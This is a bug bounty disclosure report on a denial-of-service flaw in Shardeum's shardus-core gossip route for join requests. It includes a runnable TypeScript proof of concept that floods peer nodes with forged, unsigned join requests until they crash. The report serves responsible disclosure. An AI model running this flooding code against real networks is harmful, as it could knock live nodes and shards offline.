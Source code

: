
# DoS attack on peer nodes through `gossip-valid-join-requests` due to insufficient validations

Submitted on Jul 19th 2024 at 17:59:29 UTC by @GuplerSaxanoid for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33395

Report type: Blockchain/DLT

Report severity: Insight

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
- Shutdown of greater than or equal to 30% of network processing nodes without brute force actions, but does not shut down the network

## Description
## Brief/Intro
A malicious node is able to perform DoS attack on peers through `gossip-valid-join-requests` gossip route due to lack of checks on resource consumption, lack of signature verification and insufficient duplication checks

## Vulnerability Details
The vulnerability arises from a series of flaws left behind in `gossip-valid-join-requests`:

1. There is no limit to size of newJoinRequests list
2. There is no signature verification happening anywhere along the execution path leading to addition of JoinRequest to newJoinRequests list
3. Duplication checks happen against publickey instead of ip/port pairs. This is redundant since publickey can be any random string (due to absence of signature verification)

These vulnerabilities aid a malicious node to iteratively flood the subject with `gossip-valid-join-requests` for the first two quarters of a cycle and exhaust the target node's memory. If the target node manages to go past the memory exhaustion phase, a fatal error will occur when it tries to convert the given public key to a curve public key.

## Impact Details
The malicious node is able to bring down it's peer nodes either by memory exhaustion or by a fatal error in trying to convert the given publickey string to a curve public key. Given that the malicious node is able to gossip to all the nodes in a shard, it will bring down an entire shard with this exploit. 

The Impact of this DoS attack from a single node is constricted to the shard that it belongs to. Given the uniform distribution nature of the random function that assigns shards to nodes joining the network, an adversary controlling 3 or more nodes can expand their impact to 3 or more shards, which is approximately 30% of a network comprising 10-11 shards.

Expanding the impact to the entire network is a matter of probability since there is no known method for the adversary to manipulate the random function to place their nodes in every single shard. Deriving further from that fact, causing a total network shutdown is a matter of probability and therefore this is not a critical vulnerability (although it could might well turn out to be one).

## References
Beginning of `gossip-valid-join-requests` gossip handler: https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/routes.ts#L427


## Proof of Concept

1. Register the following external route to enact a malicious node: (NOTE: "allowUnreachableCode" option needs to be enabled in tsconfig.json as this code contains an infinite loop) 

```ts
import { JoinRequest } from '@shardus/types/build/src/p2p/JoinTypes'
import * as Comms from '@shardus/core/dist/p2p/Comms';
import { nodeListFromStates } from "@shardus/core/dist/p2p/Join";
import * as Self from "@shardus/core/dist/p2p/Self";
import * as CycleChain from "@shardus/core/dist/p2p/CycleChain";

shardus.registerExternalPost('gossip-join-dos-attack', externalApiMiddleware, async (req, res) => {
        var i = 0;
        while(true) {
            const obj: JoinRequest = {
                nodeInfo: {
                    publicKey: "pk"+i,
                    externalIp: "127.0.0.1",
                    externalPort: 80,
                    internalIp: "",
                    internalPort: 0,
                    address: "",
                    joinRequestTimestamp: CycleChain.newest.start,
                    activeTimestamp: CycleChain.newest.start,
                    syncingTimestamp: CycleChain.newest.start,
                    readyTimestamp: CycleChain.newest.start,
                },
                selectionNum: "1",
                proofOfWork: "",
                cycleMarker: "",
                version: "",
                sign: {
                    owner: "pk"+i,
                    sig: ""
                },
                appJoinData:{
                  version: AccountsStorage.cachedNetworkAccount.current.minVersion,
                  stakeCert: "",
                  adminCert: "",
                  mustUseAdminCert: false
                }
            }
    
            await Comms.sendGossip(
                "gossip-valid-join-requests",
                obj,
                "",
                Self.id as any,
                nodeListFromStates([
                    P2P.P2PTypes.NodeStatus.ACTIVE,
                    P2P.P2PTypes.NodeStatus.READY,
                    P2P.P2PTypes.NodeStatus.SYNCING,
                  ]),
                false
            )

            i++;
        }

    return res.json("");
  })
```

2. Spin up a local network, and wait for the nodes to go active
3. Make a POST call to `gossip-join-dos-attack` endpoint
4. Wait for a while and observe the nodes go offline 

There are three exit logs provided in the github gist link for evidence.